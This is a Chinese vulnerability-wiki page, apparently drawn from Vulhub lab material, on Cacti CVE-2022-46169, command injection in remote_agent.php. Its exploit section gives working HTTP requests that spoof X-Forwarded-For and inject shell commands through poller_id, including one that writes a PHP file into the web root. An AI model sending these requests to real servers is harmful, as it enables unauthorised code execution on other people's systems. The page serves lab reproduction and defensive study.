





# Cacti remote_agent.php 前台命令注入漏洞 CVE-2022-46169

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：1.2.17至1.2.22；已有POLLER_ACTION_SCRIPT_PHP采集器、可达remote_agent及合适host/data id
- 证据范围：明确管理员初始化和攻击者利用角色区分，指出必要采集器配置，链条基本完整

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- version元数据错误抽成docker-compose命令
- host_id/local_data_ids是实验值，应说明发现/对应关系
- GET Content-Length:2无正文，固定请求头不一致
- 最后phpinfo写文件只是执行证明，标签webshell不准确

### 操作风险与资料使用

- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

Cacti是一个服务器监控与管理平台。在其1.2.17-1.2.22版本中存在一处命令注入漏洞，攻击者可以通过X-Forwarded-For请求头绕过服务端校验并在其中执行任意命令。

参考链接：

- https://github.com/Cacti/cacti/security/advisories/GHSA-6p93-p743-35gf
- https://mp.weixin.qq.com/s/6crwl8ggMkiHdeTtTApv3A

## 漏洞环境

Vulhub执行如下命令启动一个Cacti 1.2.22版本服务器：

```shell
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`会跳转到登录页面。使用admin/admin作为账号密码登录，并根据页面中的提示进行初始化。

实际上初始化的过程就是不断点击“下一步”，直到安装成功：



这个漏洞的利用需要Cacti应用中至少存在一个类似是`POLLER_ACTION_SCRIPT_PHP`的采集器。所以，我们在Cacti后台首页创建一个新的Graph：



选择的Graph Type是“Device - Uptime”，点击创建：



## 漏洞利用

完成上述初始化后，我们切换到攻击者的角色。作为攻击者，发送如下数据包：

```http
GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=`touch+/tmp/success` HTTP/1.1
X-Forwarded-For: 127.0.0.1
Host: localhost.lan
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 2
```



虽然响应包里没有回显，但是进入容器中即可发现`/tmp/success`已成功被创建：



写入webshell：

```http
GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=`echo+'<?php+phpinfo();?>'>/var/www/html/test.php` HTTP/1.1
```


---

> 来源：Threekiii/Awesome-POC
